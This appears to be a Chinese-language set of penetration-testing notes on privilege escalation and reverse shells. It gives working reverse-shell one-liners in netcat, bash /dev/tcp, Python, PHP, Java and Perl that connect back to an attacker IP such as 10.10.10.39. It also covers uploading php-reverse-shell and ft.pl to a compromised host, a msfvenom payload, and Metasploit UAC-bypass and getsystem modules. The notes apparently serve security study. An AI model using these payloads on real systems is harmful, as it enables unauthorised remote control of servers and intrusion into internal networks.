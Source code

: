 ### 1.权限提升的基本概念

在入侵过程中，通过各种办法和漏洞，提高攻击者在服务器中的权限，从而以便控制全局的过程就叫做提权

```
windows: user（guest）->system

Linux:   user->root
```

<img src="https://cdn.jsdelivr.net/gh/qoo3/imgur@master/bookmaker/1589473323109.png" alt="enter description here" style="zoom:80%;" />

### 2.用户权限比较

```
Linux : Root(0) > Admin(1~499) > User(500～65534) 

Windows : SYSTEM ≧ Administrators > > Users > Guests 
```

### 3.提权方法

- 系统漏洞溢出提权
- 数据库提权
- 第三方软件/服务提权

### 4.完整的提权过程

* **系统层面的提权**： 当获取到一个webshell之后，进一步利用不同漏洞及工具，获取到服务器权限或用户名密码，并且可以通过`远程桌面连接`上服务器，进一步进行控制和利用。

* **网络层面的提权**：当获取到一个webshell之后，没办法绕过防火墙之类的设备连接上内网主机，可以通过`反弹shell或是端口转发`的形式，达到控制内网主机的目的。

### 5.反弹shell

反弹shell（reverse shell），就是控制端监听在某TCP/UDP的端口，被控制端发起请求到该端口，并将其命令行的输入输出转到控制端

通常提权过程中需要一个标准的shell，有时也是在目标靶机无web应用的情况下获取shell的方法，而如果是Windows服务器一般选择端口转发远程连接服务器

#### 5.1工具使用

##### 5.1.1 NC-瑞士军刀

> nc(netcat)被誉为网络安全界的‘瑞士军刀’通过使用TCP协议或UDP协议的网络连接去读写数据，被设计成一个稳定的后门工具，能够直接由其它程序和脚本轻松驱动。同时，nc也是一个功能强大的网络调试和探测工具，能够建立几乎所有类型的网络连接

**命令参数**

```
命令格式：nc [-options] hostname port[s] [ports]

-d 后台模式
-e prog 程序重定向，一旦连接，就执行 [危险!!]
-g gateway source-routing hop point[s], up to 8
-G num source-routing pointer: 4, 8, 12, ...
-h 帮助信息
-i secs 延时的间隔
-l 监听模式，用于入站连接
-L 连接关闭后,仍然继续监听
-n 指定数字的IP地址，不能用hostname
-o file 记录16进制的传输
-p port 本地端口号 
-r 随机本地及远程端口
-s addr 本地源地址
-t 使用TELNET交互方式
-u UDP模式
-v 详细输出--用两个-v可得到更详细的内容
-w secs timeout的时间
-z 将输入输出关掉--用于扫描时

正向连接：

nc -lvvp 8989 -t -e /bin/bash
nc 被攻击者ip 8989

反向连接：

在远程主机（靶机主机）上运行 nc -t -e cmd.exe [攻击者的IP] [攻击者的端口] 
在本地主机（攻击主机）上运行 nc -lvvp [本地端口] 
```

##### 5.1.2 ft.pl

ft.pl是在Linux下的一个反弹脚本，与nc相结合，可以反弹回一个shell

使用ft.pl反弹脚本
前提：已getshell
1、将ft.pl脚本上传到靶机，并赋予执行权限:chmod u+x ft.pl 
2、攻击者进行监听
	`nc -lvvp 1111`
3、靶机上执行
	`./ft.pl 攻击者ip 1111`

##### 5.1.3 php-reverse-shell

1、直接上传到靶机，注意脚本中的地址和端口
2、在攻击者上执行监听，`nc -lvvp 12345`
3、通过浏览器去访问上传的php-reverse-shell.php脚本

##### 5.1.4 bash反弹

1、攻击者执行监听
`nc -lvvp 9999`
2、靶机上执行bash反弹
`bash -i >& /dev/tcp/10.10.10.39/9999 0>&1`

```
bash -i	#产生一个bash交互环境
>&	#将联合符号前面的内容与后面相结合然后一起重定向给后者
>/dev/tcp/10.10.10.39/9999	#让主机与目标主机10.10.10.39：9999建立一个tcp连接
0>&1	#0 (标准输入) 1 (标准输出)  将标准输入指向标准输出
```

##### 5.1.5 python脚本反弹

```
python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('攻击者ip',监听端口));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"
```

##### 5.1.6 其他反弹脚本

```
php脚本反弹
php -r 'exec("/bin/bash -i >& /dev/tcp/攻击者ip/监听端口")'
php -r '$sock=fsockopen("ip",port);exec("/bin/bash -i <&3 >&3 2>&3");'

java脚本反弹
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ip/port;cat <&5 | while read line; do $line 2>&5 >&5; done"] as String[])
p.waitFor()

perl脚本反弹
perl -e 'use Socket;$i="ip";$p=port;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

```

##### 5.1.7 msf木马反弹

```
msfvenom -p cmd/unix/reverse_python lhost=10.10.10.39 lport=4444 R

借助python来获取一个标准的虚拟终端环境
python -c "import pty;pty.spawn('/bin/bash')"
```

### 6.网站webshell权限解析

一般情况下，webshell权限介于guests——users之间，权限较小
除一般情况下，由以下两点：

* 1、网站脚本类型
  asp php(小于users，匿名权限) <aspx(users) <jsp(system)
* 2、搭建平台类型
  phpstudy lamp apmserv等第三方软件搭建 =（administrator）

### 7.提权方式举例

web中间件漏洞提权——IIS
组策略首选项提权
DLL劫持提权

绕过UAC(用户账户控制)
use exploit/windows/local/bypassuac

metasploit-meterpreter的getsystem提权